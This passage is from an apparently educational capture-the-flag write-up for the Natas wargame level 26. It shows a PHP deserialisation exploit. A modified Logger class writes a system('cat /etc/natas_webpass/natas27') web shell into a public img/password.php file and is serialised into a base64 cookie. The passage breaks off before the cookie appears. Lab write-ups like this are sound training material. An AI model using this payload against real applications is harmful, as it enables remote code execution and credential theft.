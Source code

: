 From the source code we can see that the image files are located at `img` directory, which is publicly accessible. So we can make use of this directory. I copied the `Logger()` class and created a php script which will create a object with the `Logger()` class, `serialize` it and encode it using base64.

The following PHP script will perform the above mentioned action. I have made a few changes to the `__construct()` function, adding php code snippets that read the contents of the natas27 file and store it in the file that is located at `img/password.php`, which is publicly accessible. From the output of the below script, we will get a valid cookie \[ Ignore the errors generated by the script ].

{% code lineNumbers="true" %}
```php
<?php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct(){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/password.php";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
    
    $object = new Logger();
    
    echo base64_encode(serialize($object));
?>
```
{% endcode %}

Valid cookie generated by the above script:

